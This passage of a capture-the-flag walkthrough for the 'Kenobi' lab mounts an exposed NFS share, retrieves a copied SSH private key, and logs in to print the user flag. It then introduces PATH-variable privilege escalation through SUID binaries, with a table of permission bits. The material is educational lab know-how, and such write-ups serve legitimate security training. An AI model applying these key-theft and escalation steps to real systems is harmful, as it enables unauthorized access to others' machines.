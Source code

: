 **Explanation:**  
By copying the SSH private key to the `/var/tmp` directory, you make it accessible through the NFS mount identified earlier. This allows you to retrieve the key and use it for SSH access.

### Q5. Mount the /var/tmp Directory and Retrieve the SSH Key

#### Action

Mount the `/var/tmp` directory to your local machine, retrieve the SSH key, and use it to log in as the Kenobi user:

```bash
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.239.150:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS/tmp/
```

**Sample Output:**

```
-rw-r--r--.  1 unknown unknown 1675 May 14 11:03 id_rsa
```

Retrieve the key and set appropriate permissions:

```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.239.150
```

**Ans:**  
Use the SSH key to connect to Kenobi's account and retrieve the user flag located at `/home/kenobi/user.txt`:

```bash
cat /home/kenobi/user.txt
```

**Sample Output:**

```
d0b0f3f53b6caa532a83915e19224899
```

**Explanation:**  
By successfully mounting the NFS share and retrieving the SSH key, you gain access to Kenobi's account. The user flag is a confirmation of your access.

## Privilege Escalation with Path Variable Manipulation

In this section, we'll explore the manipulation of the PATH variable as a method for privilege escalation. This technique involves exploiting binaries with the SUID bit set, which run with elevated privileges. By manipulating the PATH variable, we can substitute legitimate commands with malicious ones, thereby gaining root access.

| **Permission Bit** | **Effect on Files** | **Effect on Directories** | **Example Command** | **Example Output** |
|--------------------|---------------------|---------------------------|---------------------|---------------------|
| **SUID Bit (Set User ID)** | The file is executed with the privileges of the file owner, not the user running it. | No effect on directories. | `ls -l /usr/bin/passwd` | `-rwsr-xr-x 1 root root 54232 May 10 16:09 /usr/bin/passwd` |
| **SGID Bit (Set Group ID)** | The file is executed with the group ID of the file's group, not the user's group. | Files created in the directory inherit the group ID of the directory. | `ls -l /usr/bin/newgrp`<br>`ls -ld /var/shared` | `-rwxr-sr-x 1 root root 38936 May 10 16:09 /usr/bin/newgrp`<br>`drwxrwsr-x 2 user group 4096 May 10 16:09 /var/shared` |
| **Sticky Bit** | No effect on files. | Prevents users from deleting or renaming files owned by others in the directory. | `ls -ld /tmp` | `drwxrwxrwt 10 root root 4096 May 10 16:09 /tmp` |

